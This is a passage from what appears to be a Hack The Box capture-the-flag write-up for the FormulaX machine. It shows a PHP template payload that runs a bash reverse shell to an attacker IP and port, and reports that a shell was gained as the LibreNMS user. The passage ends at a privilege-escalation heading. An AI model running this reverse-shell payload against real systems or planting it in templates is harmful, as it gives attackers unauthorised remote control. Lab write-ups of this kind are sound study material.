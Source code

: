 ![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-51.png)

Let's create a new template with the following php payload inside of it:

```php
@php
system("bash -c '/bin/bash -i >& /dev/tcp/10.10.14.36/1330 0>&1'");
@endphp 
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-53.png)

As soon as we create a new template, we get a reverse shell connection on our netcat listener as **librebnms**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-54.png)

## Privesc: librenms to kai_relay
